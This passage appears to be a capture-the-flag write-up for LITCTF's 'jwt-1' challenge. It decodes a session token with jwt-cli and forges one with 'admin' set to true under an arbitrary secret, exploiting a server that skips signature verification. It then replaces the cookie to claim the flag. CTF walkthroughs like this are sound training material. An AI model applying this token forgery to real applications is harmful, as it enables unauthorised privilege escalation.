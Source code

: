 ```bash
cargo install jwt-cli
```

https://github.com/mike-engel/jwt-cli

```bash
└─$ jwt decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWJ1IiwiYWRtaW4iOmZhbHNlfQ.1bQi6RMpHy%2Bi0tocoYNigBuVmhnBfHlie%2Bpp37oXF6k

Token header
------------
{
  "typ": "JWT",
  "alg": "HS256"
}

Token claims
------------
{
  "admin": false,
  "name": "abu"
}
```

We see that the admin parameter had been set to false, since we don’t require a key in order to change it’s contents. FYI.

A JWT typically has three parts:

1. **Header**: Contains metadata about the token, such as the signing algorithm.
2. **Payload**: Contains the claims or data, such as user information.
3. **Signature**: Verifies the token's authenticity and integrity.

You can change the admin parameters with this command. Any secret key works as the server doesn’t verify the key.

```bash
└─$ jwt encode --secret mysecretkey --alg HS256 -P "name=abu" -P "admin=true"
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzIzNTI2MTQ0LCJuYW1lIjoiYWJ1In0.3WJQ0ZMEa74ilF5n6eXx0BQz-C4uenMi8ehCeI5--Hw
```

Then go ahead and change the cookie and press the `Get-Flag` to get the flag.

![7](../assets/posts/LITCTF/7.png)

Flag: `LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`

### **jwt-2**

its like jwt-1 but this one is harder URL: https://litctf.org:31777/
